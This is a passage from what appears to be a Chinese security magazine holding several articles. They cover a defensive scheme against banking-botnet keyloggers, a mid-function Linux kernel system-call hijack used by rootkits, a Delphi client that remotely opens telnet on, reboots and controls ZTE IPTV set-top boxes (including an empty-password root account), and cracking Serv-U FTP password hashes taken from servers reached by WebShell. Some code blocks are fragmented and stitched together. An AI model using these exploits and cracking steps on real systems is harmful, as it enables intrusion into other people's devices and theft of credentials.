表 4 中使用 XMLHttpRequest 对象调用 open 方法，指定 url、POST 方法和异步发送命令将请求发送到指定 url，然后调用 setRequestHeader 方法；发送一个 HTTP 协议的头文件，请求 Server 端需要下载的页面，随后设置使用 onreadystatechange 注册事件处理器，当请求完成加载（readyState 值为 4），即 Server 端完成 setRequestHeader 方法的请求后，将触发 function 函数的调用。

（2）使用 AJAX POST 请求方法混入伪数据。AJAX 函数可用来向银行 Server 发送伪数据，通过一定的规则约定，银行 Server 可忽略这些信息，但对僵尸网络而言却增加了大量无用信息。

JavaScript 在 form 表单变量中混合信息，不仅增加了僵尸网络萃取有效信息的工作量，而且还对数据的破译能力提出了挑战。这种方式破坏了僵尸网络的日志文件结构，此外还可利用伪 POST 请求产生庞大的伪日志。当然，这种伪日志同样会发送到银行 Server，故我们需要一种策略以鉴别真实的 POST 请求。

这里我们可以发送一个 GET 请求的 JavaScript 函数，告知银行 Server 需要关注哪一个 POST 请求。这种方式固然也增加了银行 Server 计算复杂度，但并不影响 Server 的正常运行。图 3 给出了 AJAX 间歇性请求行为。
图 3 POST 请求内的参数混淆

下面的代码显示了如何在 AJAX 请求中使用伪函数。

以 GET 请求方式向 Server 端发送带轮换密钥的 JavaScript 文件，为了对主控机不可见并抵御简单的攻击，我们也可以对密钥进行简单的加密处理。下面的代码展示了一个简单的 RC4 实现的 JavaScript 加密函数，实现参数的轻量级加密。

```javascript
function fakeposter(){
    Params = "";
    Params += "name=" + randCC() + "&";
    Params += "phone=" + randCC() + "&";
    Post("index.php", urlencode(btoa(params)));
    setTimeout(fakeposter, timerRandInt());
}
function randCC(){
    var num="";
    for(var i=0; i<Math.floor(Math.random()*9)+1; i++){
        num += Math.floor(Math.random()*9999)+1;
    }
    return num;
}
// get the first form value and assign it to value.c1
var c1 = document.getElementById("kksk").value;
var c4 = document.getElementById("zzsz").value;
// concatenate all values together
var concat = c1 + "|" + c2 + "|" + c3 + "|" + c4 + "|";
function post(url, params){
    var http = new XMLHttpRequest();
    http.open("POST", url, true);
    http.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    http.setRequestHeader("Content-length", params.length);
    http.setRequestHeader("Connection", "close");
    http.send(params);
}
```

```javascript
function rc4Encrypt(key, pt){
    s = new Array();
    for (var i=0; i<256; i++) s[i] = i;
    var x, j = 0;
    for (i=0; i<256; i++){
        j = (j + s[i] + key.charCodeAt(i % key.length)) % 256;
        x = s[i]; s[i] = s[j]; s[j] = x;
    }
    i = 0; j = 0;
    var ct = '';
    for (var y=0; y<pt.length; y++){
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;
        x = s[i]; s[i] = s[j]; s[j] = x;
        ct += String.fromCharCode(pt.charCodeAt(y) ^ (s[(s[i]+s[j]) % 256]));
    }
    return ct;
}

function realpost(){
    var params = "";
    iform = document.createElement("form");
    iform.setAttribute("action", "index.php");
    iform.setAttribute("method", "post");
    hiddenField = document.createElement("input");
    hiddenField.setAttribute("type", "hidden");
    // ...
    var inputs = document.getElementsByTagName('input');
    for(var i=0; i<inputs.length; i++){
        if(inputs[i].name != "" && inputs[i].value != ""){
            params += inputs[i].name + '=' + inputs[i].value + '&';
        }
    }
}
```

## （3）POST 请求对称加密策略

混淆数据的最佳方式即加密 POST 参数。然而这给银行 Server 带来了一定的计算压力，需要花一定的 CPU 时间对参数解密。故这里我们选择对称加密算法，尽可能降低 Server 端的计算压力。通过轮换密钥策略……

```javascript
}
var demands = document.getElementById("demands");
params += "demands=" + demands.value;
hiddenField.value = urlencode(btoa(rc4Encrypt("<?php echo $_SESSION['rc4']; ?>", params)));
iform.appendChild(hiddenField);
document.body.appendChild(iform);
iform.submit();
}


```

整个请求加密以及响应过程如下：首先产生一个 RC4 加密密钥并存储在会话变量中。利用会话和会话 ID Cookies，系统可为每个访问 Web 站点的客户分配一独立密钥。HTML 表单响应页和包含对称加密密钥的 JavaScript 文件一同以 GET 请求方式加载到客户端。银行 Server 使用会话变量解密 RC4 加密的 POST 请求，然后计算出一个新 key，以会话变量形式存储。密钥的产生以确保对于每次表单加载都具有轮换性。

### 策略执行的实用性约束

至此，我们已经讨论了一种运用编码方式降低僵尸网络感染的影响，特别是针对金融数据的窃取。这或许不是减轻感染的最好方式，但我们的测试表明此方法可有效减少僵尸网络感染程度。故这种方式能确保它们的 Web 站点远离数据威胁，使环境更加安全。然而，这些在不同程度上也有一定的局限性。

基础预防约束。尽管改变了输入域变量名以及隐藏域参数，但键盘记录器仍然处于活动状态，可捕获这些变量值。而且虽然增加了主控机从日志中采用特殊样式匹配方式搜索难度，然而僵尸主控机可以通过浏览页面源码、检验每个表单域等方法来决定某个变量名是否需要解析。

高级预防约束。在这个防御级别上，我们引入了 AJAX 请求，因 AJAX 表单提交完全不同于正常的表单提交，故 Keylogger 无法从 victims 获取到任何日志信息，从而 C&C Server 上也不会存有日志。而且，我们也考虑到未来某天 keylogger 具备捕获 AJAX 请求功能，此时可引入伪数据构造函数并采用 RC4 加密算法对 Requests 加密处理。但 RC4 只是一个简单的加密算法，容易引起暴力破解，其最大的弱点在于加密密钥的重用。僵尸主控机可搜集足够多的散列值用以实施暴力猜测密钥。当然，这同样给僵尸主控机增加了大量的计算负载。

### 小结

本文介绍了一种抵御僵尸网络攻击的方法，基本原则是尽可能地使僵尸主控机难从 victim 主机上获取到日志信息。鉴于合法 Server 端提取并分析客户端请求的性能消耗，本文引入不同的防御策略，对 POST 请求进行干扰破坏，包括简单的变量名更改、参数隐藏和中级防御，即利用前后缀字符方式混淆变量内容，或者通过创建新表单域将客户端数据转移到不同的输入域内等手段；以及最后的高级防御策略，即使用 AJAX 请求提交伪数据并对 POST 请求信息加密后上送到 Server 端。本文给出的防御策略只是基于当前僵尸网络已有功能提出的，随着僵尸网络技术的发展，僵尸主控机仍可寻找一种方式突破这些防御。

- 前置知识：无
- 关键词：无
## 一种新的 Linux 内核劫持方法分析

文/Boris Procházka　译/小小杉

通过改变系统调用函数执行流，我们给出一种基于 Linux 内核 2.6 家族 Intel 体系架构下的新型攻击方式。基本思想：通过改变系统调用内部处理逻辑中间位置的控制流，并创建一个环境使攻击者尽可能地隐藏他。

基本上，我们都根据操作系统的架构将攻击模式分为两个部分：其一，用户模式下的攻击。攻击者实现一个简单的二进制命令替换，破坏原有的系统命令，如 ls、ps 等。但这些方式都是基于文件系统级的修改，无法躲避检验和检测，如 Tripwire 工具。其二，内核模式下的攻击。现在的各种攻击手段都走向了内核，特别是针对内核接口的破坏，如系统调用接口或虚拟文件系统 VFS 等。这类攻击因其能轻易获取到系统控制权限而颇受欢迎。对于上层用户而言，调用的各种上层 API 函数，都需要映射到对应的系统调用函数上；若我们能够修改内核接口行为，则整个系统行为都可以改变。攻击者若希望隐藏他的行为，只需修改一些特定接口并公开部分真实结果即可。当前，并没有一种可靠的方式揭露系统中的攻击行为，我们只能希望攻击者没有足够优秀的技术，无法完全隐藏他留下的痕迹。

下面，我们将重点关注系统调用接口，讨论当前存在的各种攻击类型，并分析如何在系统调用例程中间插入 jump 代码。

### 系统调用接口

系统调用接口即用户模式与内核模式之间切换的接口层。任一应用程序需要访问内核数据结构，都需要通过系统调用接口，映射到对应的系统调用函数上进行处理，然后将结果返回给上层应用程序。在 Linux（IA-32）下，系统调用以软中断方式通过调用号映射。函数参数通过 CPU 寄存器传递，严格顺序如下：eax、ebx、ecx、edx、esi、edi、ebp。其中 eax 通常用来存放调用号，下面简单分析一下 setuid() 函数的调用，如图 1 所示。
图 1 Linux 系统调用流程

首先，应用程序在 CPU 寄存器内填充需要传递的值，然后通过 int $0x80 产生一个异常，引发一个系统调用例程，将执行流程切换至内核模式。系统调用例程的地址存放在中断表中，具体调用哪个函数，由传递的中断号确定。在 system_call() 内实现的系统调用例程，首先保存系统调用号，以及所有 CPU 寄存器内容（SAVE_ALL 宏实现），然后系统做一些基本的测试，在所有测试都正常时，保存在 eax 内的系统调用号会作为系统调用表的一个索引，查找系统调用函数如 sys_setuid()。系统调用函数会执行后续代码，以改变系统状态或返回一个系统值。所有的系统调用函数都以 asmlinkage 方式实现，即它们的参数都存放在堆栈中。当系统调用完成后，函数返回值会保存在 eax 寄存器内。随后系统调用例程会继续执行后续代码，如各种额外的测试等，成功后所有的 CPU 寄存器值会恢复成原始值（RESTORE_REGS 宏），并以 iret 指令结束，使程序执行流切回至用户态模式。

系统调用使用非常频繁，通过软中断方式实现模式切换效率不高。基于此，Intel Pentium II 处理器提供了一种快速系统调用，即 sysenter 指令。尽管此指令调用 sysenter_entry()，但其结果与系统调用表例程几乎一样，故本文并没有特意区分两种调用模式。

## 窃和攻击之术

- 针对系统调用接口的攻击方法相对比较陈旧和普遍。下面简要描述一下这些攻击类型。
- 1. 攻击系统调用表，一种古老而最广泛的入侵方式。攻击方法：构造一个伪函数替换系统调用表中的原始函数，其主要表现为过滤一些特殊结果，但现在系统管理员基本上都会采用市面上已有的各种校验工具对系统调用表进行检验，故攻击者不得不研制更优秀的攻击方法。
- 2. 攻击系统调用函数，即修改指定函数的序言部分。通过修改函数实体的前几个字节指令，如替换为 JMP 指令，使其 JMP 到攻击者设定的 hack 函数中，也被称为 Detour 技术。
- 3. 攻击系统调用例程，即在不破坏系统调用表的情况下接管系统执行流。具体方法：拷贝一份原始的系统调用表到一个指定位置，然后改变系统调用例程指针。此时，原系统调用表将不会再使用，然后我们可以随意修改拷贝后的调用表。
- 4. 攻击系统中断表。攻击者可以改变中断表中的记录，并伪造一个处理例程。此类攻击比较繁琐，攻击者需构建自己的处理函数，而且中断子系统很接近计算机体系架构，可参考文献 phrack 59 “Handling Interrupt Descriptor Table for fun and profit”。
- 5. 攻击 idtr 寄存器。中断表的定位需借助 idtr 寄存器，对应的值可通过 sidt 指令修改。攻击者可实施方法（3）的方式，即拷贝一份中断表，然后改变 idtr 寄存器值，使其指向复制的中断表。

### 攻击新策略

下面，我们将关注如何在函数实现体中间位置改变程序的执行流。这种思想源于攻击系统调用函数策略，即用 JMP 指令替换函数体前几条指令，实现函数偷换。我们将尽力推广此技术，使其能够在函数体中间位置发挥作用，以躲避某些针对函数体头尾部几条指令的特征值校验。若想在一个现有函数中间位置劫持程序执行流，必然要重写函数代码。但最大的问题是：如何在修改后的函数体内确保原行为，主要归结为以下三点。

- 1. **七字节空间**。为了劫持程序执行流，我们必须重写原函数部分代码，即用 JMP 或 CALL 指令替换部分指令。最简单方式即将目标函数地址填充到一个 CPU 寄存器中如 eax，然后执行一个绝对 JMP 命令，如：`movl $0, %eax` 和 `jmp %eax`，这两条指令编译后的机器码（`\xb8\x00\x00\x00\x00\xff\xe0`），共 7 字节大小，即我们需要至少重写两条指令。
- 2. **保护合法代码**。在重写后，必须保证代码的有效性。若我们构造了一个无效指令，CPU 会捕获到一个异常，并立即终止进程执行。故必须保证指令的开始和结束部分不被修改，即每个标签体内部指令不被修改。
- 3. **保持原有语义**。即在函数体内改变程序执行流后，当执行完 HACK 函数后，需要在不改变原有函数语义的情况下，继续执行原函数指令。

下面我们针对一个特定的系统调用例程给出解决上述三个问题的策略。

#### ① 如何选择位置劫持程序执行流

```asm
system_call:
    pushl %eax                    //存放系统调用号
    SAVE_ALL                      //存储 CPU 所有寄存器值
    movl $0xfffef000, %ebx        //计算当前进程指针值
    andl %esp, %ebx
```

函数调用开始之前，会暂存系统调用号以及所有 CPU 寄存器值到堆栈中，然后计算当前进程指针值，并保存在 ebx 寄存器内。在上述代码片段中，我们需要寻找一个劫持控制流的最佳位置。前两条指令主要用来暂存用户空间数据，显然不可重写，否则有可能丢失部分数据。

在保存后，CPU 状态稳定，此时是劫持控制流的最好时机。若我们能够重写用来计算当前进程指针值的那两条指令，则可获取 7 字节大小。指针地址计算也是独立的，故容易实现复制。

```asm
testw $_TIF_WORK_SYSCALL_ENTRY, TI_flags(%ebp)   //Process traced?
jnz syscall_trace_entry                           //If so, jump to trace entry function
cmpl $(nr_syscalls), %eax                         //eax >= number of system calls?
jae syscall_badsys                                //If so, abort
```

系统调用例程执行上面两个测试。其一，校验当前运行进程是否被跟踪，若已设置跟踪标识，则暂停进程运行，并启用调试器。其二，检验 eax 寄存器内系统调用号的有效性，判断其值是否大于系统内所有系统调用的总和。

考虑以下代码：

```asm
call *sys_call_table(0, %eax, 4)      //Calling sys_call_table[eax]
movl %eax, PT_EAX(%esp)               //Storing of return value
```

系统调用例程核心。eax 寄存器存放系统调用号，即 sys_call_table 数组索引值，指向某个特定系统调用函数。函数返回值将存放到栈中的 eax 寄存器中，返回给用户空间。尽管系统调用例程核心很适合劫持，但我们不利用此位置，因为系统调用表指针是当前各种扫描工具首要的检测点。

```asm
cli                                 //Clear Interrupts
movl TI_flags(%ebp), %ecx           //Copy process flags in ecx
testw $_TIF_ALLWORK_MASK, %cx       //Is needed extra work?
jne syscall_exit_work               //If so, do extra work
```

当系统调用函数返回时，系统会屏蔽所有中断，进程测试是否有额外的工作（确保不丢失需要调度或发信号挂起的中断）。上面的代码片段提供了另一个劫持机会。movl 和 testw 指令共 8 字节大小，足以存放 JMP 指令，而且这两条指令完全独立，不在任一标签体内，可复制。

```asm
RESTORE_REGS                     //CPU's registers restoration
addl $4, %esp                    //Clearing up system call number from stack
iret                             //Return from interrupt


```

调用例程实现体尾部，即准备从系统态切回到用户态。用暂存在栈上的值恢复所有 CPU 寄存器值，清除系统调用号，触发 iret 指令。尾部指令也可作为劫持位置，但问题是当进程被跟踪时，并不会使用这些代码片段。

#### ② 改变系统调用例程中的程序控制流

通过①的分析，我们已经在系统调用例程中确定了两个合适位置可劫持系统控制流程。在 2.6 内核的所有版本都兼容这种方式的更改，具备很好的兼容性和可用性。我们的目的是修改系统调用函数的返回值，即在原函数调用后，再劫持转入到 hack 函数执行。故我们将选择第二个位置实现劫持，如图 2 所示。否则，若在函数还未调用之前转入攻击者设置的 hack 函数，执行完 hack 函数后再调用原函数，则无法实现 hack 函数目的（如隐藏文件效果等）；而且若不再调用原函数，显然也不合乎逻辑，否则上层应用程序明明是调用 fork 函数创建一个子进程，却没有实现此功能，很容易被用户感觉到存在内核钩子程序。

程序会跳转到 trampoline() 函数中重新执行，但在重新执行上面两条指令之前，事先保存了栈顶地址值，以确保能准确访问到系统调用结果，而后调用 hack 函数，修改原系统调用的结果信息，如过滤待隐藏的木马文件、恶意进程等。执行完此函数后，再对此函数的栈痕迹进行清理，最后重新 jmp 到原位置继续执行。

### 实验

为了验证前面提出的劫持方法，笔者基于此方法开发了两款 rootkit，分别为 MoleKit 和 Powerkit。MoleKit 能够借助 /dev/mem 文件有效渗透到系统，并可提供一些基本的服务，如进程、目录隐藏等。因为这种攻击方式涉及很多启发式搜索，如在内存中寻找代码片段特征值等，但这也是一种很好的思路，可以在不借助可加载模块支持前提下，实现系统渗透。而 Powerkit 则是使用内核模块渗透到内核，其主要好处是可方便访问内核 API，并实现 keylogging 或权限提升等。

### 小结

本文给出了劫持 Linux 内核的一个新方法，此类攻击在 2.6 内核的所有版本上均验证可行，并给出了两款基于此技术的 Rootkit。且当前并没有很好的 Anti-Rootkit 或扫描器等工具能够检测此类攻击，对 Linux 系统管理员提出了一定的挑战。故笔者同时发布了一款检测工具 Sentinel scanner，资源可从  
http://www.stud.fit.vutbr.cz/~xproch63/conference/memics2010/sentinel.zip  
站点获取。
图 2 函数劫持实现流程

由图 2 可知，我们重写了 movl TI_flags(%ebp), %ecx 和 testw $_TIF_ALLWORK_MASK, %cx 两条指令，并跳转……

前置知识：Delphi

关键词：中兴机顶盒，ELF，SH 汇编，jffs2 与 cramfs 文件系统

## 谁在遥控我的电视（下）

### ——中兴机顶盒引发的 IPTV 安全问题

文/图 Cschi
上期通过分析 B600V4 两个关键程序，阐述了该款机顶盒存在的安全问题，本期继续为读者介绍使用 Delphi 编写客户端软件，以及利用这些安全漏洞对机顶盒进行远程控制，最后还介绍了如何利用升级包文件分析中兴其他型号机顶盒，并对引发的 IPTV 安全问题做了粗略讨论。

### 第一节 Delphi 客户端程序的编写

程序界面如图 1 所示。使用 Indy Clients 的 IdTCPClient 控件，EditHost 和 EditPort 分别指定 IP 地址和端口号；BtnConnect 连接到指定的远程机顶盒，BtnSendCmd 发送 Combobox1 中的机顶盒命令（仅连接 10042 端口时），BtnSendData 发送 EditData 字符串到机顶盒（比如向机顶盒发送 “Config command” 命令后，还需要继续发送机顶盒新配置的数据，但这不是必须的，一些命令如 “RemoteSetCfg command”、“inetd Command” 等执行成功后，并不需要接收后续数据），BtnDisconnect 断开当前的连接，BtnClearLog 清空发送和接收记录，发送记录 LbLog 使用 TListBox 控件，接收记录使用 TMemo 控件。
图 1

**程序关键代码。**BtnConnect 的 onClick 事件如下：

```pascal
procedure TForm1.BtnConnectClick(Sender: TObject);
begin
  IdTcpClient1.Host := EdtHost.Text;
  IdTcpClient1.Port := StrToInt(EdtPort.Text);
  LbLog.Items.Add('正在连接 ' + EdtHost.Text + '...');
  with IdTcpClient1 do
  begin
    try
      Connect(1000);
      try
        LbLog.Items.Add('已连接' + EdtHost.Text + ' ' + EdtPort.Text + '！');
        BtnEnabled(True); //使能其他按键
        if EdtPort.Text <> '10042' then
        begin
          BtnSendCmd.Enabled := False;
          Combobox1.Enabled := False;
        end; //连接端口不是10042时，禁用命令按键
      except
        LbLog.Items.Add('远程主机无响应！');
        IdTcpClient1.Disconnect();
      end; //end try
    except
      LbLog.Items.Add('无法建立到 ' + EdtHost.Text + ' 的连接！');
    end;
  end;
end;
```

```pascal
end; //end try
end; //end with
end;
```

BtnSendCmd 的 onClick 事件如下。对于 B600V4A 等型号机顶盒传输加密数据，可以采用十六进制显示接收的数据，当 TCheckBox 控件 isHex 选中时，按十六进制显示数据。

```pascal
procedure TForm1.BtnSendCmdClick(Sender: TObject);
var i: integer; recvStr: TStringStream;
begin
  s := #$01#$00#$00#$00#$00#$00#$00#$00; //Config command
  rs := Combobox1.Items[Combobox1.ItemIndex];
  if rs = 'Check STB TYPE Command' then s := #$04#$00#$00#$00#$00#$00#$00#$00;
  if rs = 'Config command' then s := #$00#$04#$00#$00#$00#$00#$00#$22;
  if rs = 'RemoteSetCfg command' then s := #$00#$40#$00#$00#$00#$00#$00#$02;
  if rs = 'inetd Command' then s := #$01#$00#$00#$00#$00#$00#$00#$00;
  if rs = 'Coreup command' then s := #$10#$00#$00#$00#$00#$00#$01#$00;
  if rs = 'Coreup_print command' then s := #$40#$00#$00#$00#$00#$00#$01#$00;
  if rs = 'reboot' then s := #$00#$10#$00#$00#$00#$00#$00#$00;

  l := IdTcpClient1.Socket.Send(PChar(s)^, Length(s));
  LbLog.Items.Add('命令长度：' + IntToStr(Length(s)) + ', 发送长度：' + IntToStr(l));

  recvStr := TStringStream.Create('');
  l := IdTcpClient1.ReadFromStack(False, 1000, False); //1秒
  while l > 0 do
  begin
    rs := '';
    IdTcpClient1.ReadBuffer(r, l);
    for i := 0 to l - 1 do
      if isHex.Checked then
        rs := rs + '$' + IntToHex(Ord(r[i]), 2)
      else if r[i] < $20 then rs := rs + '?' else rs := rs + r[i];
    Memo1.Lines.Add('（长度' + IntToStr(l) + '）:' + rs);
    l := IdTcpClient1.ReadFromStack(False, 1000, False); //1秒
  end;
end;
```

BtnEnabled(B: boolean) 方法如下，使能或禁用按键。

```pascal
procedure TForm1.BtnEnabled(B: boolean);
begin
  BtnConnect.Enabled := not(B);
  BtnSendCmd.Enabled := B;
  BtnDisconnect.Enabled := B;
  BtnSendData.Enabled := B;
  BtnClearLog.Enabled := B;
end;
```

IdTCPClient1 的 onStatus 事件如下：

```pascal
procedure TForm1.IdTCPClient1Status(ASender: TObject; const AStatus: TIdStatus; const AStatusText: String);
begin
  ...
end;
```

```cpp
LbLog.Items.Add(AStatusText); // IdTCPClient1 控件状态
if AStatus=hsDisconnected then
begin
  BtnEnabled(False); // 当连接断开时，禁用按键
  Combobox1.Enabled:=True; // 重新使能 ComboBox1
end;
end;
http://124.232.131.133:8080/b600v2/allmtd_70032505.jpg

```

图4

使用本程序还可以连接机顶盒的 3465 端口，并使用 BtnSendData 按键发送控制命令，比如控制命令“play”（播放）、“stop”（停止）、“pause”（暂停）、“resume”（恢复）、“setmute”（静音）等等。

### 机顶盒型号判断

目前笔者所在省份的中兴 IPTV 机顶盒型号主要有：B600V4A、B600V4C 等。下面将使用本程序对远程机顶盒型号做简单的判断。使用“inetd Command”命令，成功开启 telnetd 服务。

- 1）如果没有返回数据，是 B600V4A 机顶盒，主机名为“STLinux”，使用“id”用户可以登录成功，如图2和图3所示。
- 2）如果返回加密数据的长度为 32，推测为 B600V2 机顶盒，虽然成功开启 telnetd 服务，但是不能使用“id”用户登录，主机名为“(none)”，如图4和图5所示。
- 3）如果返回加密数据的长度为 24，是 B600V4C 机顶盒。此时虽然成功开启 telnetd 服务，但是不能使用“id”用户登录，主机名为“BcmPT”，如图6和图7所示。

图5  
图2  
图6  
图3  
图7

### 第二节 回头看机型号和机顶盒分析

通过 Google 搜索“b600v2”，获得中兴机顶盒升级服务器链接，如图8所示。不难看出 B600V4、V4A 和 B700V2、V2A 机顶盒均使用 STi 类型 CPU，所以系统应该也使用 STLinux，而且软件相互兼容。B600V4C 机顶盒则比较特殊，使用 BCM7466 类型的 CPU，因此 telnet 登录时，主机名显示为“BcmPT”。

我们分析 B700V2A 机顶盒不需要串口连接，也不需要机顶盒实物，只要在 Linux 系统中还原出升级文件，就能对其关键文件进行分析。

图8

中兴机顶盒升级文件。B700V2 升级文件下载地址：  
从 B600V4A 开始，升级包与 B600V4 有很大的差别，在升级包中增加了 ECC 信息，也就是以 512 个字节为一个块，计算出 ECC，然后在后面增加 16 个字节的内容。其中字节[0][1][2]为前 256 字节的 3bit ECC，字节[5][6][7]为后 256 字节的 3bit ECC，字节[4]为 0x00 或 0xFF（如果 ECC 全为 0xFF 时），其余字节均为 0xFF（详细描述参阅 IPTV 爱好者：http://iptvfans.cn/），如图9所示。

图9

使用 WinHex 打开升级包文件 allmtd_70032505.jpg，各部分之间存在大量“FF”数据作为分割，确定出升级包的三个部分：

- 内核：0x00000000~0x0017FFFF
- 根文件系统：0x00180000~0x0037FFFF
- 扩展文件系统：0x00380000~0x0125BFFF

如图10所示。

然后确定是否使用 ECC 校验，查看 512 字节（十六进制 200）的整数倍处的数据。校验数据的后 8 字节全部为“FF”，图11为使用了 ECC 校验的升级包，否则没有使用 ECC 校验。最后使用文件分割器将升级包分割为三个文件：kernel.bin、jffs2.bin 和 cramfs.bin。如果存在 ECC 校验，需要将 ECC 数据删除（每 512 字节删除 16 字节）。

图10  
图11

jffs2 和 cramfs 文件系统的恢复。虚拟机安装 Linux，笔者使用 Ylmf OS 3.0（Ubuntu 10.04 内核），然后将 jffs2.bin 和 cramfs.bin 文件复制到虚拟机中，如 /root/bin 目录。Linux 终端中执行以下命令，如图12所示。

```bash
modprobe mtdblock
modprobe mtdram total_size=49152 erase_size=128
# 挂载 jffs2 文件系统，并 mount 到 /root/b700/jffs2 目录

dd if=/root/bin/jffs2.bin of=/dev/mtdblock0
mount -t jffs2 /dev/mtdblock0 /root/b700/jffs2

# 挂载 cramfs 文件系统，并 mount 到 /root/b700/cramfs 目录

dd if=/root/bin/cramfs.bin of=/dev/mtdblock0
mount -t cramfs /dev/mtdblock0 /root/b700/cramfs
```

获得 B700 机顶盒的 jffs2 和 cramfs 系统文件，如图13和图14所示。使用 mount 挂载目录或文件，当 Linux 重启后将失效，所以 mount 挂载成功后需要把文件复制出来。

查看“/etc/rc.d/rcS”文件确认主机名为“STLinux”，查看“/etc/passwd”文件确认用户“idt”为空密码并且是 root 权限，如图15和图16所示。因此可以确定，一旦开启 telnetd 服务，使用“idt”用户便可成功登录机顶盒。至于 cramfs 系统中的应用程序，与 B600V4 类似，可以反汇编为 SH4 语言进行分析，本文略。

如前文所述，只要发送相应的命令，即可实现对远程机顶盒的各种控制。

远程重启。连接 10042 端口，发送“reboot”命令后，我们会发现机顶盒无法 ping 通，证明远程机顶盒已经被我们成功重启了，如图17所示。经测试，该命令影响 B600V4 和主机名为“(none)”的未知型号机顶盒，B600V4A 等机顶盒不支持此命令。

控制播放器。使用客户端程序连接机顶盒的 3465 端口，直接发送“play”（播放）、“stop”（停止）、“pause”（暂停）、“resume”（恢复）、“setmute”（静音）等控制命令，即可实现对机顶盒播放器的远程控制，如图18所示。

telnet 的利用。其实只要我们成功 telnet，那么远程机顶盒的一切尽在掌握之中：重启（reboot）、关机（poweroff）、查看 stb.cfg 配置文件、分析机顶盒日志（/var/log/10010_*.txt、5030_*.txt）等，甚至可以修改 EPG 首页进行挂马，利用 ftp 下载远程 ELF 文件，在机顶盒内植入木马病毒等等，此类操作本文不做探讨。或许你很难想象，自己的网络电视（IPTV 机顶盒）曾几何时已被他人掌控，成为一种僵尸主机，危害着网络，包括计算机网络。然而这一切并非假设。

### 第三节 IPTV 网络安全问题

我们不能过多地指责厂商，毕竟任何产品都要经过不断地改进，才能逐渐健壮安全。但是因此引发的 IPTV 网络安全却是不能忽视和回避的。随着各种智能终端不断涌现，其安全问题也变得日益严峻，手机病毒首当其冲，或许不久以后，电视病毒也会接踵而来。

首先必须保证软件安全。任何由软件支撑的硬件设备，其安全问题更多源自软件，尤其当设备接入网络，丝毫的疏漏都可能引发蝴蝶效应。要重新测评软件，进行安全评估，加密加壳防止破解分析，关闭不必要的端口，尽量避免绑定“0.0.0.0”的 IP 地址等。

然后是隔离网络。将 IPTV 网络与互联网隔离，这样能大大减少来自外界的刺探和攻击。尽管攻击者可以伪造 IPTV 终端，但随着智能终端种类的增加，各种网络之间的隔离将显得非常重要，要求既能高效互通，又能有效隔离。最后要注意硬件安全，硬件要求不能被反向分析，比如 B600V4 机顶盒提供的串行接口，方便了调试的同时，也方便了我们的分析。假如一款硬件设备可以被别人拿去分析，甚至 DIY，那么破解就是迟早的事了。这就是为什么开源系统被频繁地改版升级，而硬件设备则相对比较迟缓的原因，因为我们不了解硬件以及硬件所使用的软件。

以上仅仅是对 IPTV 网络终端安全的泛泛之谈，并未涉及庞杂的 IPTV 网络系统，如服务器、传输协议、网络架构等。本文提及的内容虽然只是 IPTV 的冰山一角，但是所引发的安全问题却是任何从事智能终端研发者必须面对、重视和解决的，因为这或许关系到我们未来生活的方方面面。

> （声明：本文旨在引起人们对网络机顶盒安全的重视，对于中兴机顶盒的分析仅作技术探讨，请勿用于网络攻击等非法用途，因此引发的法律纠纷，与笔者无关。）

- 前置知识：无
- 关键词：Serv-U，密码破解，FTP

## Serv-U 密码破解

图/文 Simcon

Serv-U 是一款流行的 FTP 服务器，很多 Web 服务器都用 Serv-U 来提供 FTP 服务，供网站使用者或者设计者上传和下载文件。Serv-U 在 Web 渗透中会经常遇到，在权限等合适的情况下，可以通过 WebShell 直接获得服务器权限。Serv-U 提权在后面的章节中会有介绍。Serv-U 早期版本采用 MD5 加密，在获取 Serv-U 文件夹下的 ServUDaemon.ini 文件后，可以对 FTP 用户密码进行破解。

Serv-U 的加密算法如下：

- 第一步，随机产生两个字符。
- 第二步，将第一步产生的字符串加上你需要的密码一起 MD5。
- 第三步，将第一步的两个字符加上第二步产生的 MD5 编码的大写拼接在一起。

下面以一个实际案例介绍如何破解 Serv-U 的密码。

### 1. 获取 ServUDaemon.ini 文件

Serv-U 一般安装目录位于“C:\Program Files\Serv-U”，当然也有位于其他位置的，具体安装路径由程序安装者决定。在获得 WebShell 权限的情况下，如果服务器上还安装了 Serv-U，找到 Serv-U 的安装目录，将 ServUDaemon.ini 复制到本地留待后面进行破解。ServUDaemon.ini 文件如图1所示。

图1 ServUDaemon.ini 文件

### 2. 查看 ServUDaemon.ini 文件

配置文件对大小写不敏感，行与行之间允许空行。主要分为 [GLOBAL] 全局变量段和 [DOMAINS] 域名配置段。[GLOBAL] 全局变量段主要设置 Serv-U 的注册号以及刷新标志；[DOMAINS] 域名配置段包括在 Serv-U 下添加的所有域信息以及域以下用户列表。

```ini
[GLOBAL]
Version=5.0.0.0  # 无须改动，版本号
RegistrationKey=...  # 无须改动，产品注册码
ProcessID=1172  # 无须改动，进程号
ReloadSettings=True  # 修改 INI 文件后加入此项，刷新后生效

[DOMAINS]
Domain1=0.0.0.0||21|Wizard Generated Domain|||0|0
# Domain1 = IP地址 | 端口 | 域显示名称 | 是否生效 | 是否显示 | 是否删除
# IP 地址为 0.0.0.0 时，Serv-U 自动适配系统分配的 IP
# 当生效位置 0，则此域禁用
# 当显示位置 0，此域不生效并且在控制面板不显示
# 当删除位置 0，则 ReloadSettings 设置为 True 后，刷新后自动删除此域名以下所有内容
```

```ini
[Domain1]
# 无须改动。与上面添加的域对应，是此域内的一些公共设置
User1=admin|1|1|0
# 必填，用户列表
# 格式：User 序号 = 用户名 | 是否生效 | 是否删除
# User 添加时必须按序号排列，跳号无效；序号重复则后者无效
# 是否生效置 0，则此用户禁用
# 是否删除置 1，刷新后删除用户信息；置 2 则域下所有用户均删除
```

```ini
[USER=admin|1]
# 用户配置段，这些段的排列不分先后
TimeOut=600
Maintenance=System
Note1="Administrator User"
Access1=G:\|RWAMELCDP
```

在 Serv-U 密码破解中需要注意用户配置，也就是 ServUDaemon.ini 文件中涉及用户的 9 个参数。一个用户对应一套参数配置，具体参数举例如下：

```ini
[USER=zt828|1]   # 表示用户名为 zt828
Password=mk7DC2A4B1A9A9E1F52A7F967FBCAA0A37  # 密码
HomeDir=d:\wwwroot\zt828  # 默认主目录
MaxNrUsers=10  # 最大用户连接数
RelPaths=1  # 是否锁定到主目录
ChangePassword=1  # 是否可修改密码
DiskQuota=1|104857600|0  # 磁盘配额（100M）
SpeedLimitUp=102400  # 上传速度限制约 100k/s
SpeedLimitDown=102400  # 下载速度限制约 100k/s
Access1=d:\wwwroot\zt828|RL  # 读取和列表 d:\wwwroot\zt828 目录
```

### 3. 破解 Serv-U 密码

